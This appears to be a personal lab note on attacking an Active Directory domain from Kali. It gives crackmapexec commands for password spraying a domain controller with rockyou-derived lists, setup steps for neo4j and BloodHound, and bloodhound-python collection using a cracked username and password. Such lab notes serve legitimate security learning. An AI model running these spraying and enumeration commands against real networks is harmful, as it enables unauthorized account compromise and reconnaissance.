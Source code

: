 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  added random passwords from rockyou.txt into passwords.txt\
  added random users from the user.txt file

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt

  Continue enumerating even when the user:pass combination has been found for a user\
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success

- Getting ready for bloodhound installing with from https://bloodhound.readthedocs.io/en/latest/installation/linux.html#install-java  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list\
  sudo apt-get update\
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' >     /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update\
  sudo apt-get install apt-transport-https\
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound\

  ...Starting bloodhound....
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py
  
  pip install bloodhound\
  added bloodhound-python to the $PATH\
  /home/user/.local/bin\
  subl ~/.zshrc\
  source ~/.zshrc\
  added /home/user/.local/bin to the file
  
  Running the command with the default username and password we had found with crackmapexec earlier\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com\
  
  To get All\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  
